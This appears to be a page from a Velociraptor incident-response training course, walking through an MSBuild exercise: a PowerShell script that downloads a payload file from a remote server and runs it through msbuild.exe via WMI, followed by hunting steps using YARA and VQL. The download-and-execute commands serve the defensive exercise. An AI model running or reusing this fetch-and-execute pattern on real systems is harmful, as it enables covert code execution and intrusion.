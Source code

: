 </div>

---



## MSBuild exercise

A script to prepare exercise data is available here: [msbuild.ps1](/resources/msbuild.ps1)

```powershell
## MSBuild setup

# 0. If server disable prefetch so we generate prefetch artifacts
 if ( $(Get-CimInstance -Class CIM_OperatingSystem).Caption -like "*Server*" ) {
 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v EnablePrefetcher /t REG_DWORD /d 3 /f
 reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Prefetcher" /v MaxPrefetchFiles /t REG_DWORD /d 8192 /f
 Enable-MMAgent –OperationAPI -ErrorAction SilentlyContinue
 Start-Service Sysmain -ErrorAction SilentlyContinue
}

# 1. Download payload
$Url = "https://present.velocidex.com/resources/kUgJI.TMP"
$dest = "\\127.0.0.1\C$\Windows\Temp\kUgJI.TMP"

Remove-Item -Path $dest -force -ErrorAction SilentlyContinue
Invoke-WebRequest -Uri $Url -OutFile $dest -UseBasicParsing

# 2. Execute payload
Invoke-WmiMethod -ComputerName 127.0.0.1 -Name Create -Class Win32_PROCESS "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe C:\Windows\Temp\kUgJI.TMP /noconsolelogger"
```

---


## MSBuild Exercise

<div class="container small-font">
<div class="col">

* Detect payload on disk with a hunt for `Generic.Glob.Yara`
    * Add your created yara - [msbuild.yara](/resources/msbuild.yara)
    * Use file size bounds for performance 5MB - 5KB large beacon to small shellcode loader.
    * Target C:\Windows\Temp (or where you dropped the file)
    * Select upload file
* Velociraptor enables post processing on uploaded files.
    * Can you extract the beacon using xor in VQL?
    * We will walk through this one!

</div>
<div class="col">
